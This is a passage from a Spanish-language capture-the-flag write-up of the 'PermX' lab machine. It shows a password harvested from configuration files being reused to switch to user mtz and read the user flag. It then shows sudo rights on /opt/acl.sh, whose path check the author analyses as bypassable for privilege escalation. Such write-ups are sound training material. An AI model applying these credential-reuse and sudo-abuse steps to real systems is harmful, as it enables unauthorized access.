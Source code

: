 ```bash
config.yml:                password: "%database_password%"
config.yml:    password:  "%mailer_password%"
configuration.php:$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

De los usuarios que disponen `bash` que enumeramos en `/etc/passwd`, probamos de autenticarnos con el usuario `mtz` y las credenciales obtenidas anteriormente y logramos el acceso.

Visualizamos finalmente la flag de **user.txt**.

```bash
www-data@permx:/var/www/chamilo/app/config$ su mtz
Password: 
mtz@permx:/var/www/chamilo/app/config$ cat /home/mtz/user.txt 
a0fcaa21eec2*************************
```

## Privilege Escalation

### Abusing sudoers privilege

Revisamos los grupos a los que forma parte el usuario `mtz`, no obtenemos resultado relevante. Comprobando los permisos de `sudoers`, verificamos que podemos ejecutar como `sudo` el script que se encuentra en `/opt/acl.sh`.

```bash
mtz@permx:/var/www/chamilo/app/config$ id
uid=1000(mtz) gid=1000(mtz) groups=1000(mtz)
mtz@permx:/var/www/chamilo/app/config$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

El script intenta restringir el acceso solo a archivos dentro de `/home/mtz/`, pero la validación es defectuosa:

* Solo verifica que `$target` empiece con `/home/mtz/`, pero no bloquea correctamente rutas absolutas o enlaces simbólicos.
* El check `"$target" == *..*` no es suficiente para prevenir **Path Traversal**.

Si podemos ejecutar este script como `sudo`, podemos modificar permisos de cualquier archivo arbitrario fuera de `/home/mtz/`.

```bash
mtz@permx:/var/www/chamilo/app/config$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
```